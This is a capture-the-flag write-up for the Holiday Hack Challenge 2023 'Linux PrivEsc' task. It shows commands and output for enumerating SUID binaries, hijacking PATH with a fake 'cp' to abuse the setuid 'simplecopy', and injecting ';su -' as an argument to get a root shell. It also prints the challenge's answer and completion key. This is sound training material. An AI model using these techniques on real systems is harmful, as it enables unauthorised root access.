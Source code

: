 ```yaml
---
icon: material/text-box-outline
---
```


# Linux PrivEsc

**Difficulty**: <i class=twemoji_red>:fontawesome-solid-tree::fontawesome-solid-tree::fontawesome-solid-tree:</i>:fontawesome-solid-tree::fontawesome-solid-tree:<br/>
**Direct link**: [Linux PrivEsc](https://hhc23-wetty.holidayhackchallenge.com?&challenge=linuxpriv)

## Objective

!!! question "Request"
    Rose Mold is in Ostrich Saloon on the Island of Misfit Toys. Give her a hand with escalation for a tip about hidden islands.

??? quote "Rose Mold"
    What am I doing in this saloon? The better question is: what planet are you from?<br/>
    Yes, I’m a troll from the Planet Frost. I decided to stay on Earth after Holiday Hack 2021 and live among the elves because I made such dear friends here.<br/>
    Whatever. Do you know much about privilege escalation techniques on Linux?<br/>
    You're asking why? How about I'll tell you why after you help me.<br/>
    And you might have to use that big brain of yours to get creative, bub.

## Hints

??? tip "Linux Privilege Escalation Techniques"
    There's [various ways](https://payatu.com/blog/a-guide-to-linux-privilege-escalation/) to escalate privileges on a Linux system. 

??? tip "Linux Command Injection"
    Use the privileged binary to overwriting a file to escalate privileges could be a solution, but there's an easier method if you pass it a crafty argument.

## Solution

Logging into the system, we need to escalate our privileges so we can run a binary in the /root directory. We start checking the system to determine how best to proceed.

```cmd
elf@6dcd4737c4c8:~$ whoami
elf
elf@6dcd4737c4c8:~$ uname -a
Linux 6dcd4737c4c8 5.10.0-26-cloud-amd64 #1 SMP Debian 5.10.197-1 (2023-09-29) x86_64 x86_64 x86_64 GNU/Linux
elf@6dcd4737c4c8:~$ netstat -antup 
bash: netstat: command not found
elf@6dcd4737c4c8:~$ ps -aux | grep root
elf           14  0.0  0.0   3312   720 pts/0    S+   02:24   0:00 grep --color=auto root
```

We are logged in as "elf", the kernel version does not appear to have any readily available exploits to leverage for privilege escalation, and doesn't look like we have any running services we could take advantage of.

```cmd
elf@6dcd4737c4c8:~$ find / -perm -u=s -type f 2>/dev/null 
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/passwd
/usr/bin/simplecopy
```

This "simplecopy" I am not familiar with, so that might be worth investigating

```cmd
elf@6dcd4737c4c8:~$ ls -la /usr/bin/simplecopy
-rwsr-xr-x 1 root root 16952 Dec  2 22:17 /usr/bin/simplecopy
elf@6dcd4737c4c8:~$ simplecopy
Usage: simplecopy <source> <destination>
```

Simplecopy is owned by root though I'm not sure why we have this when we can just use "cp" to copy files. 

```cmd hl_lines="6-7"
elf@6dcd4737c4c8:~$ strings /usr/bin/simplecopy
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
...
Usage: %s <source> <destination>
cp %s %s
:*3$"
GCC: (Ubuntu 9.4.0-1ubuntu1~20.04.2) 9.4.0
```

That's interesting that it appears simplecopy is just using "cp". Though, it's not defining the full path to "cp". Maybe we can leverage that to run what we want as root.

```cmd
elf@6dcd4737c4c8:~$ cp /bin/bash ./cp
elf@6dcd4737c4c8:~$ export PATH=.:$PATH
elf@6dcd4737c4c8:~$ simplecopy ls  
Usage: simplecopy <source> <destination>
elf@6dcd4737c4c8:~$ simplecopy ls .
/usr/bin/ls: /usr/bin/ls: cannot execute binary file
```
After copying bash to the local directory as cp, and adding the local working directory to the PATH environment variable, we can confirm that simplecopy now tries to run the arguments with bash, effectively running "bash %s %s". We can certainly pass a script to the first variable, but perhaps we can pass commands as well with the second, so we end up with something like "bash script ; second command"

```cmd hl_lines="11"
elf@6dcd4737c4c8:~$ echo "ls -la /root" > cmd
elf@6dcd4737c4c8:~$ simplecopy cmd "."
total 620
drwx------ 1 root root   4096 Dec  2 22:17 .
drwxr-xr-x 1 root root   4096 Jan  3 02:23 ..
-rw-r--r-- 1 root root   3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root    161 Dec  5  2019 .profile
-rws------ 1 root root 612560 Nov  9 21:29 runmetoanswer
elf@6dcd4737c4c8:~$ simplecopy . ";su -"
.: .: Is a directory
root@6dcd4737c4c8:~#
```

We now have root, though trying to run runmetoanswer results in an error:

```cmd
root@6dcd4737c4c8:~# ./runmetoanswer 
There is something wrong with your environment; the most likely reason is that
the RESOURCE_ID environmental variable is missing - that can happen if you're using sudo
or su or some other process that alters the environment. If this persists, please
ask for help!

The error message is: Couldn't get resource_id from the environmental variable RESOURCE_ID: environment variable not found
```

Running printenv from both elf and root does show "RESOURCE_ID" does not exist for root. 

```cmd
root@6dcd4737c4c8:~# export RESOURCE_ID=ad963c6e-15bb-44c4-84f4-c438a4795803
root@6dcd4737c4c8:~# ./runmetoanswer 
Who delivers Christmas presents?

> 
```

Looking to find the answer, I copied runmetoanswer back to /home/elf, used chown to set owner to elf:elf, and ran runmetoanswer as elf where I recieved an error pointing to /etc/runtoanswer.yaml

```cmd hl_lines="10"
oot@6dcd4737c4c8:~# cat /etc/runtoanswer.yaml 
# This is the config file for runtoanswer, where you can set up your challenge!
---

# This is the completionSecret from the Content sheet - don't tell the user this!
key: b08b538569e395f88e12ef9fe751ac39

# The answer that the user is expected to enter - case sensitive
# (This is optional - if you don't have an answer, then running this will immediately win)
answer: "santa"
```


!!! success "Answer"
```cmd
root@6dcd4737c4c8:~# ./runmetoanswer 
Who delivers Christmas presents?

> santa
Your answer: santa

Checking....
Your answer is correct!
```

## Response

!!! quote "Rose Mold"
    Yup, I knew you knew. You just have that vibe.<br/>
    To answer your question of why from earlier... Nunya!<br/>
    But, I will tell you something better, about some information I... found.<br/>
    There's a hidden, uncharted area somewhere along the coast of this island, and there may be more around the other islands.<br/>
    The area is supposed to have something on it that's totes worth, but I hear all the bad vibe toys chill there.<br/>
    That's all I got. K byyeeeee.<br/>
    Ugh... n00bs... 
